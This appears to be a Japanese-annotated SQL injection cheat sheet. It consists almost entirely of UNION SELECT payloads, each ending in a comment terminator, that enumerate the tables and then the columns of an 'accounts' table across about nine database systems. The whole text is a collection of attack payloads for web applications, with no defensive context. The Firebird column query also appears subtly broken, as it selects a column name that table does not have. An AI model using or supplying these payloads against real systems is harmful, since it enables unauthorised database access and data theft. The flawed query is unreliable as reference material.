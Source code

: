 ```bash

# MySQL / MariaDB
UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database();--  

# PostgreSQL
UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public';--  

# PostgreSQLで他のスキーマも調べたい場合
UNION SELECT table_name FROM information_schema.tables WHERE table_schema LIKE '%';--  

# Mircsoft SQL Server
UNION SELECT name FROM sysobjects WHERE xtype='U';--  

# Oracle Database
UNION SELECT table_name FROM all_tables;--  

# IBM Db2
UNION SELECT tabname FROM syscat.tables WHERE tabschema=CURRENT SCHEMA;--  

# Firebird(ビューとシステムテーブル以外)
UNION SELECT rdb$relation_name FROM rdb$relations WHERE rdb$view_source IS NULL AND rdb$system_flag=0;--  

# Firebirdですべてのテーブルとビューを取得する場合
UNION SELECT rdb$relation_name FROM rdb$relations;--  

# Amazon Redshift
UNION SELECT tablename FROM pg_catalog.pg_tables WHERE schemaname='public';--

# Amazon Redshift(すべてのスキーマのテーブルを取得)
UNION SELECT tablename FROM pg_catalog.pg_tables;--    
```
テーブル一覧を取得したら、テーブルのカラム一覧を取得する。
```bash
# SQLite
UNION SELECT GROUP_CONCAT(name, \\",\\") FROM pragma_table_info(\\"accounts\\");--

# MySQL / MariaDB
UNION SELECT GROUP_CONCAT(column_name, ',') FROM information_schema.columns WHERE table_name='accounts' AND table_schema=database();--  

# PostgreSQL
UNION SELECT STRING_AGG(column_name, ',') FROM information_schema.columns WHERE table_name='accounts' AND table_schema='public';--  

# Microsoft SQL Server
UNION SELECT STRING_AGG(name, ',') FROM sys.columns WHERE object_id = OBJECT_ID('accounts');--  

# Microsoft SQL Server 2017 以前の場合
UNION SELECT STUFF((SELECT ',' + name FROM sys.columns WHERE object_id = OBJECT_ID('accounts') FOR XML PATH('')), 1, 1, '');--  

# Oracle Database
UNION SELECT LISTAGG(column_name, ',') WITHIN GROUP (ORDER BY column_id) FROM all_tab_columns WHERE table_name='ACCOUNTS';--  

# IBM Db2
UNION SELECT LISTAGG(colname, ',') WITHIN GROUP (ORDER BY colno) FROM syscat.columns WHERE tabname='ACCOUNTS';--  

# Firebird
UNION SELECT LIST(column_name, ',') FROM rdb$relation_fields WHERE rdb$relation_name='ACCOUNTS';--  
```